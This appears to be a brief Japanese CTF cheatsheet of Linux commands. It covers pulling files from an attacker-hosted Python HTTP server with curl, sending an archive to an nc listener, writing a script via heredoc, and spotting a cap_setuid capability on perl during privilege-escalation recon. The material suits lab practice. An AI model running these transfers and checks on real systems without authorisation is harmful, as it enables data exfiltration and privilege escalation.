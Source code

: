 ```yaml
---
layout: post
title: "linux_command"
published : true
tags: CTF Common cheatsheet linux 
---
```

## curl
### 送信側(待受)
```sh
python3 -m http.server 8888
```
### 受信側
```sh
curl 10.10.14.14:8888/src.file -o dst.file
```
## nc
### 受信側(待受)
```sh
nc -lvnp 9999 > some-file-name.tar.gz
```
### 送信側
```sh
nc 10.11.42.116 9999 < ff.tar.gz
```

## ヒアドキュメントでスクリプトを書く
```sh
cat << EOF > test.sh
#!/bin/sh
id
EOF
```
## Capabilityを調べる
```sh
david@nunchucks:/opt$ which perl
/usr/bin/perl
david@nunchucks:/opt$ getcap /usr/bin/perl
/usr/bin/perl = cap_setuid+ep
```
